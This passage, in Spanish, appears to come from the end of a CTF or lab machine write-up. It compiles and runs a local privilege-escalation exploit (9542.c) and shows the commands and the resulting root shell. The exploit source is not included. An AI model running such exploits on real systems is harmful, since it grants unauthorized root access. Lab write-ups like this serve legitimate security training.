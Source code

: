 ```bash
gcc 9542.c -o exploit
```

Damos permisos de ejecución

```bash
chmod +x exploit
```

y lo ejecutamos obteniendo una Shell como root

```bash
bash-3.00$ ./exploit
sh: no job control in this shell
sh-3.00# whoami
root
```

y ya tendríamos la maquina terminada.

Un saludo y Feliz Hacking :)
